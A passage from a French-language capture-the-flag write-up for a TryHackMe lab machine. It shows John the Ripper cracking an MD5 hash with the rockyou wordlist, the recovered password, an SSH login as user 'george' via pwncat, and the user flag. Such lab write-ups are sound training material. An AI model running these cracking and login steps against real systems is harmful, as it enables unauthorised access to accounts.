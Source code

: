 On identifie le hash qui est du md5.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ john ./hash -w=/usr/share/wordlists/rockyou.txt --format=raw-md5
Using default input encoding: UTF-8
Loaded 3 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
pretonnevippasempre (?)
1g 0:00:00:00 DONE (2021-11-04 00:26) 1.666g/s 23905Kp/s 23905Kc/s 55372KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed

```

On trouve un mot de passe qui est : pretonnevippasempre   

![page1](./Task1-10.png)   

Avec le mot de passe on arrive à se connecter sur le compte de george. 

**User.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ pwncat george@job.empline.thm
[00:44:52] Welcome to pwncat 🐈!                                                                                                                                                                                               __main__.py:153
Password: *******************
[00:46:01] job.empline.thm:22: registered new host w/ db                                                                                                                                                                        manager.py:504
(local) pwncat$
(remote) george@empline:/home/george$ ls
user.txt
(remote) george@empline:/home/george$ cat user.txt 
91cb89c70aa2e5ce0e0116dab099078e
```
